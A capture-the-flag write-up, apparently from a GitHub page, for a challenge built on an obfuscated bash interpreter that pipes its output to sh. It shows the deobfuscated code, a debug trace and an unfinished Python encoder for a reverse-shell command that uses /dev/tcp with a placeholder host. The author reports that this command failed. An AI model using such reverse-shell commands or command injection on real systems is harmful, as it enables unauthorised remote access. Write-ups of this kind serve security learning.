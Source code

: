 # Bashfuckscator

## Task

Our beloved code interpreter got attacked so we implemented some of the industries best security measurements.

nc chal.cybersecurityrumble.de 2946

## Solution

**Note**: I didn't solve this challenge

On connection we get:

```
Welcome to bashfuckscator!
Press L for code listing, or enter code.
```

After receiving the code we have to beautify and deobfuscate what's happening:

```bash
read data
while [ ${i:-0} -lt ${#data} ];do
  var="regs_${curreg:-0}"
  var="${var/-/_}"
  curc="${data:$i:1}"
  [ "${curc}" = "$(((i+0)%10))" ] && declare "${var}=$((${!var:-0}+1))"
  [ "${curc}" = "$(((i+1)%10))" ] && declare "${var}=$((${!var:-0}-1))"
  [ "${curc}" = "$(((i+2)%10))" ] && printf -- "\x$(printf "%02x" "${!var}")"
  [ "${curc}" = "$(((i+3)%10))" ] && curreg=$((${curreg:-0}+1))
  [ "${curc}" = "$(((i+4)%10))" ] && curreg=$((${curreg:-0}-1))
  [ "${curc}" = "$(((i+5)%10))" ] && echo "STDIN not implemented" && exit 1
  if [ "${curc}" = "$(((i+6)%10))" ];then
    oldd=${loopd:-0}
    loopd=$((oldd+1))
    declare "loops_$loopd=$i"
    if [ ${!var:-0} -eq 0 ];then
      while [ $oldd -lt $loopd ];do
        i=$((${i:-0}+1))
        if [ $i -eq ${#data} ];then
          echo "LOOP ERROR"
          exit 1
        fi
        if [ "${data:$i:1}" = "$(((i+6)%10))" ];then
          loopd=$((loopd+1))
        elif [ "${data:$i:1}" = "$(((i+7)%10))" ];then
          loopd=$((loopd-1))
        fi
      done
    fi
  elif [ "${curc}" = "$(((i+7)%10))" ];then
    lvar="loops_${loopd:-0}"
    i=$((${!lvar}-1))
    loopd=$((${loopd:-0}-1))
  fi
  i=$((${i:-0}+1))
done|sh
```

We iterate over each char of the data and have different actions defined on checks with the current index and value. So we have to input numbers.

We need to `printf` chars that are stored in `regs_${curreg:-0}`, because the output of the loop is execute via the pipe to `sh`. How do we control `var`?

The `printf` uses a variable indirection or expansion: https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Shell-Parameter-Expansion

So the first two ifs actually increment the value of `regs_${curreg}` which is also controlled by us via case 4 and 5.

The rest of the loop is not very interesting, the last if-elif really has nothing do to with the task.

So what I came up with was this:

 - Use only one register (`regs_0`), which was a mistake
 - Increment or decrement this register until it contains the next charcode of my command
 - Set the next number so that `printf` is called

 I started this challenge 30 minutes before the competition was about to end so instead of writing a proper script I just debugged the script locally to try a single command, quick and dirty:

 ```bash
 $ bash -x bashfucksator.sh
+ regs_0=0
+ read data
234
+ '[' 0 -lt 3 ']'
+ var=regs_0
+ var=regs_0
+ curc=2
+ '[' 2 = 0 ']'
+ '[' 2 = 1 ']'
+ '[' 2 = 2 ']'
+ sh
++ printf %02x 0
+ printf -- '\x00'
+ '[' 2 = 3 ']'
+ '[' 2 = 4 ']'
+ '[' 2 = 5 ']'
+ '[' 2 = 6 ']'
+ '[' 2 = 7 ']'
+ i=1
 ```

First number is `2` to increment, then `3` and so on, until we reach our desired charcode. Because I used only one register I had to move from lower ascii `> 97` back to `< 65` for special chars. This is actually less complex than creating virtual registers and managing them but it is less efficient and needs more numbers.

I piped a script generating these numbers to my local shell script. I wanted to execute a reverse shell so it looked like this:

```python
# (sh -i>&/dev/tcp/domain/port;cat)
o = ""
# (
o += (100*"0123456789")[:40]
o += str((int(o[-1]) + 3) % 10)
# s
o += (100*"1234567890")[:75]
o += str((int(o[-1]) + 3) % 10)
# h
o += "89012345678"
o += str((int(o[-1]) + 2) % 10)
# " "
o += (100*"0123456789")[:72]
o += str((int(o[-1]) + 2) % 10)
# -
o += "2345678901234"
o += str((int(o[-1]) + 3) % 10)
# i
o += (100*"6789012345")[:60]
o += str((int(o[-1]) + 3) % 10)
# >
o += (100*"8901234567")[:43]
o += str((int(o[-1]) + 2) % 10)
# &
o += (100*"2345678901")[:24]
o += str((int(o[-1]) + 2) % 10)
# /
o += (100*"6789012345")[:9]
o += str((int(o[-1]) + 3) % 10)
```

And there was my second mistake, that command wouldn't even work, the shell was immediately closed. Instead of doing things by hand I sould've made a script from the beginning.

After the CTF ended I tried different commands, none of them succeeded remotely. Only locally. Not sure what was happening.

